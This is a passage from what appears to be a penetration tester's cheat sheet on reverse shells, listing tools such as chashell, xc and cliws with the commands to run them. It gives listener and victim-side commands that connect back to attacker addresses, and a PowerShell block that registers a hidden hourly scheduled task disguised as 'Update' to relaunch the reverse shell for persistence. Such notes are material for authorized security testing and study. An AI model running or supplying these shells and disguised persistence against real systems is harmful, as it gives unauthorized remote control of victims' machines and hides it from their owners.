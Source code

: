 ```
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```
$ ./chashell_linux_amd64
```




## Tools

* [https://www.revshells.com/](https://www.revshells.com/)
* [https://itm4n.github.io/tools/](https://itm4n.github.io/tools/)



### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)



### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```
$ rlwrap ./xc -l -p 443
```

Launch:

```
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```



### cliws

- [https://github.com/b23r0/cliws](https://github.com/b23r0/cliws)

Reverse mode:

```
$ rlwrap -cAr ./cliws -l 8000
Cmd > .\cliws.exe -r ws://10.10.13.37:8000 powershell
```

Create a scheduled task for persistence:

```powershell
$ while true; do sudo netstat -tulpan | grep LISTEN | grep 8080 > /dev/null || rlwrap -cAr ./cliws -l 8080; done

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Hours 1)
$settings = New-ScheduledTaskSettingsSet -Hidden -MultipleInstances Queue
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden C:\Windows\Tasks\cliws.exe -r ws://10.10.13.37:8080 powershell"
Register-ScheduledTask -TaskName "Update" -Trigger $trigger -Settings $settings -Action $action
```
